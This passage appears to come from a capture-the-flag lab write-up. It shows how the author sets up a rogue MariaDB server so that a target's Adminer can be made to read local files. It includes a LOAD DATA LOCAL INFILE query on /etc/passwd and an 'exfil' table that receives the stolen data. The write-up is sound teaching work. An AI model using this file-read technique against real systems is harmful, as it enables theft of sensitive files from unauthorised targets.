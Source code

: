 ```

LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test.test
FIELDS TERMINATED BY "\n"

```

#### Configure MySQL

Getting my local MySQL server setup so that Adminer could connect to it was a very similar process to what I did in [HTB: Kryptos](/2019/09/21/htb-kryptos.html#auth-bypass). I won’t go into quite as much detail, but it was very useful to use Wireshark to see more detailed messages as to why connections were failing.
- [This post](https://www.techrepublic.com/article/how-to-set-change-and-recover-a-mysql-root-password/) was useful for re-setting my root password on MySQL (would also help with setting it for the first time).
- I remembered from last time I needed to change the bind IP from 127.0.0.1 to 10.10.14.47 in `/etc/mysql/mariadb.conf.d/50-server.cnf`.
- When I saw `Host '10.10.10.187' is not allowed to connect to this MariaDB server` in the Wireshark traffic, [this article](https://confluence.atlassian.com/jirakb/configuring-database-connection-results-in-error-host-xxxxxxx-is-not-allowed-to-connect-to-this-mysql-server-358908249.html) showed how to fix it with:

  ```

  MariaDB [mysql]> GRANT ALL PRIVILEGES ON *.* TO root@10.10.10.187 IDENTIFIED by '0xdf' WITH GRANT OPTION;

  ```
- I created a database, `pwn`, with a table `exfil`:

  ```

  MariaDB [(none)]> CREATE DATABASE pwn;
  Query OK, 1 row affected (0.003 sec)
  MariaDB [(none)]> use pwn
  Database changed
  MariaDB [pwn]> CREATE TABLE exfil (data VARCHAR(256));
  Query OK, 0 rows affected (0.008 sec)

  ```

#### Connect

Now I can log using the creds I set:

![image-20200504210219358](https://0xdfimages.gitlab.io/img/image-20200504210219358.png)

And I’m in:

![image-20200504210323918](https://0xdfimages.gitlab.io/img/image-20200504210323918.png)

#### File Read
